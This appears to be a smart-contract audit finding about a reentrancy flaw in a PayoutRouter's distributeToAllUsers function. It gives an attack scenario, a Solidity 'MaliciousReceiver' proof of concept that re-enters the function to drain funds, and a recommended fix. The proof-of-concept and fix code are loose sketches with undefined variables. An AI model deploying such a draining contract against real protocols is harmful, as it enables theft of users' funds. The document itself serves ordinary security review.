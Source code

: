 **Attack Scenario:**
1. Attacker deploys malicious contract as beneficiary
2. During `safeTransfer`, malicious contract's `onERC721Received` (or similar hook) calls back into `distributeToAllUsers()`
3. Attacker drains funds before state updates complete

**Proof of Concept:**
```solidity
contract MaliciousReceiver {
    PayoutRouter router;
    IERC20 token;
    bool attacking;
    
    function attack() external {
        attacking = true;
        router.distributeToAllUsers(address(vault));
    }
    
    receive() external payable {
        if (attacking && address(this).balance < 10 ether) {
            router.distributeToAllUsers(address(vault));
        }
    }
}
```

**Recommendation:**
1. Apply checks-effects-interactions pattern: update state BEFORE external calls
2. Use pull-over-push pattern: accumulate balances in mapping, let users withdraw
3. Add per-user reentrancy guard using bit flags

```solidity
// Fixed version
mapping(address => mapping(address => uint256)) public pendingWithdrawals;

function distributeToAllUsers(address vault) external {
    // ... calculations ...
    for (uint256 i = 0; i < shareholders.length; i++) {
        address supporter = shareholders[i];
        // Update state FIRST
        totalVaultShares -= userShares[supporter];
        
        // Store pending amounts
        pendingWithdrawals[ngo][asset] += ngoAmount;
        pendingWithdrawals[beneficiary][asset] += beneficiaryAmount;
        pendingWithdrawals[treasury][asset] += protocolAmount;
    }
}

function withdraw(address token) external nonReentrant {
    uint256 amount = pendingWithdrawals[msg.sender][token];
    require(amount > 0, "No balance");
    pendingWithdrawals[msg.sender][token] = 0;
    IERC20(token).safeTransfer(msg.sender, amount);
}
```

---